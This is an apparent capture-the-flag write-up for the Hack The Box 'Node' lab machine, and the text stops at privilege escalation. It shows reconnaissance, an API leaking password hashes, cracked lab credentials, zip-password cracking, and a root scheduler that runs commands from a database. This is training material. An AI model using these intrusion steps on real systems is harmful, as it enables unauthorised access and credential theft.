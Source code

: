 ```yaml
---
layout: post
title: Node(HTB)
categories:
  - Writeup
---
```


<br>OS linux
<br>IP: 10.10.10.58


**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.58</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-03 11:09 EST
<br>Nmap scan report for 10.10.10.58
<br>Host is up (0.19s latency).
<br>Not shown: 998 filtered ports
<br>PORT     STATE SERVICE VERSION
<br><font color="BB69EC">22/tcp</font>   open  ssh     <font color="53E100">OpenSSH 7.2p2</font> Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
<br>| ssh-hostkey: 
<br>|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
<br>|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
<br>|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (EdDSA)
<br><font color="BB69EC">3000/tcp</font> open  http    <font color="53E100">Node.js Express</font> framework
<br>| hadoop-datanode-info: 
<br>|_  Logs: /login
<br>|_hadoop-jobtracker-info: 
<br>| hadoop-tasktracker-info: 
<br>|_  Logs: /login
<br>|_hbase-master-info: 
<br>|_http-title: MyPlace
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Aggressive OS guesses: Linux 3.10 - 4.8 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.8 (92%), Linux 3.8 - 3.11 (92%), Linux 4.4 (92%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel</p>

<p>TRACEROUTE (using port 22/tcp)
<br>HOP RTT       ADDRESS
<br>1   196.72 ms 10.10.14.1
<br>2   196.85 ms 10.10.10.58</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 48.94 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>

</div>
</font>

<br>**WEB**
<br>**Port:3000**
![1](https://teckk2.github.io/assets/images/node/1.png)
<br>Open any one profile and check the network section in the Inspect Element, and reload the page and you will see there is a hidden directory **/api/users/mark** where the page is pointing to
![2](https://teckk2.github.io/assets/images/node/2.png)
<br>Open it and you will see the user mark password hash
![3](https://teckk2.github.io/assets/images/node/3.png)
<br>Now remove the user **mark** from the URL and you will see every users password hash in that page
![4](https://teckk2.github.io/assets/images/node/4.png)
<br>Now using online cracking [Tool](https://crackstation.net) crack the password hash,
<br>Username = **myP14ceAdm1nAcc0uNT**
<br>Password = **manchester**
<br>Username = **tom**
<br>Password = **spongebob**
<br>Username = **mark**
<br>Password = **snowflake**
<br>Now with the admin accounts credentials we can login
![5.1](https://teckk2.github.io/assets/images/node/5.1.png)
<br>Download the backup file.
<br>Many people faced issue while downloading that file, So If you are using Mozila than try downloading it from Crome,in many time from Crome also the file is not getting downloading completely so you need to trie couple of times to download it completely. if both the ways didn't work you can copy the File from my [repo](https://github.com/Teckk2/Teck_k2/blob/master/node/myplace.backup), It's a Base64 so you just need to copy and paste to a new file in your system.

<font size="1">
<div style="height:150px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># file myplace.backup 
<br>myplace.backup: ASCII text, with very long lines, with no line terminators
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat myplace.backup | base64 -d > backup
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># file backup 
<br>backup: Zip archive data, at least v1.0 to extract
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># mv backup backup.zip
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># unzip backup.zip 
<br>Archive:  backup.zip
<br>&nbsp;&nbsp;&nbsp;creating: var/www/myplace/
<br>[backup.zip] var/www/myplace/package-lock.json password:</p>

</div>
</font>

<br>The ZIP file is password protected, so to crack it we will use fcrackzip tool.

<font size="1">
<div style="height:150px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># fcrackzip -D -p /usr/share/wordlists/rockyou.txt backup.zip 
<br>possible pw found: <font color="ffff00">magicword</font> ()
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># mkdir node
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># mv backup.zip node/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cd node/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/node</font># ls
<br>backup.zip
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/node</font># unzip backup.zip 
<br>Archive:  backup.zip
<br>[backup.zip] var/www/myplace/package-lock.json password: </p>

</div>
</font>

<br>Using the password **magicword** we unzip the file, and there is lot of files inside it so we have to look everyfile one-by-one
<br>Under /var/www/myplace there is a app.js file which have username and password using which we can login to SSH.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>root@kali:<font color="RoyalBlue">~/Desktop/node/var/www/myplace</font># ls -la
<br>total 56
<br>drwxr-xr-x  4 root root  4096 Sep  3 08:59 .
<br>drwxr-xr-x  3 root root  4096 Mar  4 02:11 ..
<br>-rw-rw-r--  1 root root  3861 Sep  2  2017 app.html
<br>-rw-rw-r--  1 root root  8058 Sep  3 08:23 app.js
<br>drwxr-xr-x 69 root root  4096 Sep  1  2017 node_modules
<br>-rw-rw-r--  1 root root   283 Sep  1  2017 package.json
<br>-rw-r--r--  1 root root 21264 Sep  1  2017 package-lock.json
<br>drwxrwxr-x  6 root root  4096 Sep  1  2017 static
<br><font color="red">root@kali</font>root@kali:<font color="RoyalBlue">~/Desktop/node/var/www/myplace</font># cat app.js </p>

<p>const express&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require('express');
<br>const session&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require('express-session');
<br>const bodyParser&nbsp;&nbsp;= require('body-parser');
<br>const crypto&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require('crypto');
<br>const MongoClient = require('mongodb').MongoClient;
<br>const ObjectID&nbsp;&nbsp;&nbsp;&nbsp;= require('mongodb').ObjectID;
<br>const path&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require("path");
<br>const spawn&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require('child_process').spawn;
<br>const app&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= express();
<br>const url&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
<br>const backup_key&nbsp;&nbsp;= '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';
<br>....
<br>....
<br>....
<br><font color="red">root@kali</font>root@kali:<font color="RoyalBlue">~/Desktop/node/var/www/myplace</font># </p>

</div>
</font>

<br>Username : **mark**
<br>Password : **5AYRft73VtFpc84k**

<br>**SSH**
![6](https://teckk2.github.io/assets/images/node/6.JPG)
<br>After enumerating for some time I found another app.js file in /var/scheduler which is has root access and which is executing the tasks command and executing doc.cmd file.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="53E100">mark@node</font>:<font color="RoyalBlue">/var/scheduler</font>$ ls -la
<br>total 28
<br>drwxr-xr-x  3 root root 4096 Sep  3 14:24 .
<br>drwxr-xr-x 15 root root 4096 Sep  3 14:06 ..
<br>-rw-rw-r--  1 root root  910 Sep  3 15:24 app.js
<br>drwxr-xr-x 19 root root 4096 Sep  3 14:24 node_modules
<br>-rw-rw-r--  1 root root  176 Sep  3 14:08 package.json
<br>-rw-r--r--  1 root root 4709 Sep  3 14:24 package-lock.json
<br><font color="53E100">mark@node</font>:<font color="RoyalBlue">/var/scheduler</font>$ cat app.js 
<br>const exec&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= require('child_process').exec;
<br>const MongoClient&nbsp;= require('mongodb').MongoClient;
<br>const ObjectID&nbsp;&nbsp;&nbsp;&nbsp;= require('mongodb').ObjectID;
<br>const url&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;= 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';</p>

<p>MongoClient.connect(url, function(error, db) {
<br>&nbsp;&nbsp;if (error || !db) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;console.log('[!] Failed to connect to mongodb');
<br>&nbsp;&nbsp;&nbsp;&nbsp;return;
<br>&nbsp;&nbsp;}</p>

<p>&nbsp;&nbsp;setInterval(function () {
<br>&nbsp;&nbsp;&nbsp;&nbsp;db.collection('tasks').find().toArray(function (error, docs) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if (!error && docs) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;docs.forEach(function (doc) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if (doc) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;console.log('Executing task ' + doc._id + '...');
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exec(doc.cmd);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) });
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;});
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;else if (error) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;console.log('Something went wrong: ' + error);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;});
<br>&nbsp;&nbsp;}, 30000);</p>

<p>});
<br><font color="53E100">mark@node</font>:<font color="RoyalBlue">/var/scheduler</font>$</p>

</div>
</font>














